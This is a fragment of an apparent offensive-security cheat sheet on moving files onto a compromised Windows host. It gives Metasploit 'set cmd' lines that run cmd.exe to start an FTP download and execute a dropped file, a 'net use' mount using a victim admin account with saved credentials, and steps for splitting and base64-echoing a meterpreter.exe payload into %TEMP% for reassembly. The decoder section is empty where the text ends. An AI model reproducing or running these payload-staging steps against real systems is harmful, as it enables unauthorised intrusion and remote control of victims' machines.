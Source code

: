### Verify content of the file
set cmd cmd.exe /c 'type C:\ftp.txt'
run
### initiated the transfer
set cmd cmd.exe /c  'ftp -d -s:c:\ftp.txt'
run
### Verify file size on target
set cmd cmd.exe /c  'dir c:\'
### Execute File
set cmd 'c:\file.exe'

## or try SQLMAP

## mount
```
net use x: \\filesvr001\folder1 <password> /user:domain01\AdminVictim /savecred /p:no
```

## Inline Shell vbscript in 3 Steps
Reverse-Engineered from Shell2Meterpreter - Max 1676 Chars per echo packet
max payload per line -> 4,072 chars in payload.b64 (4095 incl command)

### Step 1 - Spliting

```bash cheat filetransfer Splitting
split -b 4000 meterpreter.exe tmpSplitName.X && ls tmpSplitName.X*
tmpSplitName.Xaa
tmpSplitName.Xab
...
for e in $(ls tmpSplitName.X*); do echo "echo $(base64 $e | tr -d '\n') >> %TEMP%\payload.b64" ; done
```

### Step 2 - copy paste (Example):

```cheat filetransfer copy paste
echo SGVsbG8gSW5saW5lIFNoZWxs > %TEMP%\payload.b64
```

### decode onliner - writes itself to %TEMP%\decode.vbs expacts %TEMP%\payload.b64

```cheat filetransfer write decoder
```
